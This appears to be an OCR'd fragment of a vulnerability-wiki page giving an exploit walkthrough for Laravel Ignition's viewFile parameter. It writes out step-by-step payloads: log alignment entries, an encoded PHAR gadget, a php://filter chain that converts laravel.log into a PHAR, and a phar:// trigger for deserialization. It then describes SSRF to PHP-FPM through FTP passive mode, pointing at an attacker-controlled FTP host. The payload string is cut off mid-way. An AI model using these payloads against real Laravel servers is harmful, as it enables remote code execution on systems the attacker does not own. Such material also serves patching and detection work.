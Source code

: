 Create the first log entry for alignment:

```plain
viewFile: AA
```

Create an entry with a payload log:

```php
viewFile: U=00E=00s=00D=00B=00A=00A=00A=00A=00A=00A=00A=00A=00A=00A=00A=00I=00Q=00A=00M=00f=00n=00/=00Y=00B=00A=00A=00A=00A=00A=00Q=00A=00A=00A=00A=00F=00A=00B=00I=00A=00Z=00H=00V=00t=00b=00X=00l=00u=00d=00Q=004=00A=001=00U=00l=003=00t=00r=00Q=00B=00A=00A=00A=00A=00A=00A=00A=00A=00A=00A=00B=000=00Z=00X=00N=000=00U=00E=00s=00D=00B=00A=00A=00A=00A=00A=00A=00A=00A=00A=00A=00A=00I=00Q=00A=007=00m=00z=00i=004=00H=00Q=00A=00A=00A=00B=000=00A=00A=00A=00A=00O=00A=00B=00I=00A=00L=00n=00B=00o=00Y=00X=00I=00v=00c=003=00R=001=00Y=00i=005=00w=00a=00H=00B=00u=00d=00Q=004=00A=00V=00y=00t=00B=00h=00L=00Y=00B=00A=00A=00A=00A=00A=00A=00A=00A=00A=00A=00A=008=00P=003=00B=00o=00c=00C=00B=00f=00X=000=00h=00B=00T=00F=00R=00f=00Q=000=009=00N=00U=00E=00l=00M=00R=00V=00I=00o=00K=00T=00s=00g=00P=00z=004=00N=00C=00l=00B=00L=00A=00w=00Q=00A=00A=00A=00A=00A=00A=00A=00A=00A=00A=00C=00E=00A=00D=00H=005=00/=002=00A=00Q=00A=00A=00A=00A...=00Q=00==00==00
```

Convert log files to valid PHAR via our filter:

```php
viewFile: php://filter/write=convert.quoted-printable-decode|convert.iconv.utf-16le.utf-8|convert.base64-decode/resource=/path/to/storage/logs/laravel.log
```

Start the deserialization process of PHAR:

```php
viewFile: phar:///path/to/storage/logs/laravel.log
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313095458063.png)

<br/>


</a-alert>
<br/>



Since we can run file_get_contents to find anything, we can scan common ports by sending HTTP requests. 

As we all know, if we can send an arbitrary binary packet to the PHP-FPM service, we can execute code on the machine. 

Another known protocol that allows binary packets to be sent over TCP is FTP, or more precisely, the passive mode of the protocol: if a client tries to read a file (or write) from an FTP server, the server notifies the client to read (or write) the contents of the file to a specific IP and port. 

Now, if we try to exploit this vulnerability using viewFile=ftp://evil-server.lexfo.fr/file.txt, the following happens:

file_get_contents() connects to our FTP server and downloads file.txt.

file_put_contents() connects to our FTP server and uploads it back to file.txt.
